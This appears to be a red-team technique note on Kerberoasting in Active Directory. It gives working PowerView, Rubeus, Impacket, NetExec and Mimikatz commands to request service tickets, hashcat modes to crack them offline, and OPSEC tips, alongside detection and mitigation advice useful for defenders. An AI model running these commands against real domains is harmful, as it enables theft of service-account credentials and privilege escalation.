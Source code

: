 ```yaml
---
tags:
  - "#type/technique"
  - "#tactic/TA0006"
  - "#technique/T1558003"
  - "#stage/privilege-escalation"
  - "#stage/lateral-movement"
  - "#os/windows"
  - "#os/linux"
  - "#tool/rubeus"
  - "#tool/impacket"
  - "#tool/powerview"
  - "#tool/hashcat"
aliases:
  - Steal or Forge Kerberos Tickets
  - SPN Roasting
  - Kerberoast
---
```

## Technique
___
Kerberoasting is a post-exploitation attack technique that targets Microsoft Active Directory. An attacker with credentials for any valid domain account (even a low-privilege one) can request Kerberos service tickets for accounts that have a Service Principal Name (SPN) configured.

A portion of the returned ticket-granting service (TGS) ticket is encrypted with the NTLM hash of the service account's password. The attacker captures this ticket and takes it offline to crack the password using brute-force methods. Since the cracking happens offline, it does not generate failed login events on the network, making it a stealthy way to escalate privileges by compromising potentially high-value service accounts.

## Prerequisites
___

**Access Level:** A valid Active Directory domain account. No special or elevated privileges are required.

**System State:** The attacker must have network access to a Domain Controller to request tickets.

**Information:** The attacker needs to identify user accounts (not computer accounts) that have an SPN configured.

**Misc**: Your system time must be synced with the DC

Linux:

```bash
sudo timedatectl set-ntp off
sudo rdate -n <targetDC>
```

Windows:

```powershell
NET TIME /DOMAIN
NET TIME \\<MACHINENAME> /SET /Y
NET TIME \\<IP Address> /SET /Y
```


## Considerations
___

**Impact**

Successful cracking of a service account password can lead to significant privilege escalation and lateral movement. Service accounts are often misconfigured with excessive permissions (including Domain Admin) to ensure applications work, making them high-value targets.

**OPSEC**

- **Noise:** Requesting service tickets for many SPNs in a short period can trigger alerts. A single user requesting dozens or hundreds of TGS tickets (Event ID 4769) is highly anomalous.

- **Weak Encryption:** Modern tools like Rubeus allow you to request tickets using the weaker RC4 encryption algorithm (`-rc4opsec`). While this makes cracking easier, requesting a ticket with encryption type `0x17` (RC4-HMAC) in an environment that defaults to AES is a major red flag for defenders.

- **Honeypots:** Defenders can create fake service accounts with tempting SPNs (e.g., `sql_prod_admin_svc`) and monitor them. Any ticket requests for these honeypot accounts are an immediate indicator of compromise.

## Execution
___
### Requesting a ticket
#### **PowerView.ps1**

Identify kerberoastable users

```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

Request ticket

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### **Rubeus**

Get information about kerberoastable users

```powershell
.\Rubeus.exe kerberoast /stats
```

Kerberoast all users

```powershell
.\Rubeus.exe kerberoast 
```

**Useful flags**:

- `/outfile` outputs roasted hashes to the specified file, one per line.
- `/tgtdeleg` accounts with AES enabled in `msDS-SupportedEncryptionTypes` will have RC4 tickets requested. (Doesn't work on >= Win 2019)
- `/rc4opsec` tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
- `/simple` output tickets one per line in the terminal
- `/nowrap` don't wrap new lines and output to terminal
- `/user:<DomainUser>` specify user to kerberoast

#### **Impacket**

Kerberoast all users

```bash
impacket-GetUserSPNs domain.local/username:'password' -request -dc-ip <dcip>
```

Kerberoast specific user

```bash
impacket-GetUserSPNs domain.local/username:'password' -request-user <user> -dc-ip <dcip>
```

**Useful flags:**

- `-outputfile` send output to file

#### **NetExec**

```bash
nxc ldap <IP> -u 'user' -p '' --kerberoasting <OUTFILE>
```

#### **PowerShell** + Mimikatz

Identify kerberoastable users.

```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

```
setspn.exe -Q */*
```

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.domain.local:1433"
```

```powershell
mimikatz # base64 /out:true
mimikatz # kerberos::list 
```

```powershell
echo "<base64 blob>" |  tr -d \\n
```

```bash
cat encoded_file | base64 -d > sqldev.kirbi
```

```bash
python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Cracking a ticket

| etype | Hashcat Mode | Example Command                            |
| ----- | ------------ | ------------------------------------------ |
| 23    | 13100        | `hashcat -m 13100 hashes.txt wordlist.txt` |
| 17    | 19600        | `hashcat -m 19600 hashes.txt wordlist.txt` |
| 18    | 19700        | `hashcat -m 19700 hashes.txt wordlist.txt` |


### Cleanup Considerations

- None

### Detection & Mitigation

#### Detection

- Event ID 4769: A Kerberos service ticket was requested

- Requests where the Ticket Encryption Type is 0x17 (RC4). In a modern environment, this should be rare

- Requests for service tickets from unusual workstations or for accounts that rarely see this activity.

- LDAP queries that search for accounts with an SPN like `(servicePrincipalName=*)`

- Create a honey account and make a custom alert for tickets requested for that account

#### Mitigation

- **Strong Passwords**: This is the most effective mitigation. Enforce a strong password policy for service accounts

- **Use Group Managed Service Accounts**: gMSAs are the gold standard. Their passwords are 240 characters long, complex, and automatically managed and rotated by Active Directory

- **Protected Users Group**: Add high-value accounts (including service accounts where possible) to the "Protected Users" security group. This enforces stronger security controls, such as disabling NTLM and preventing the use of weaker Kerberos encryption types.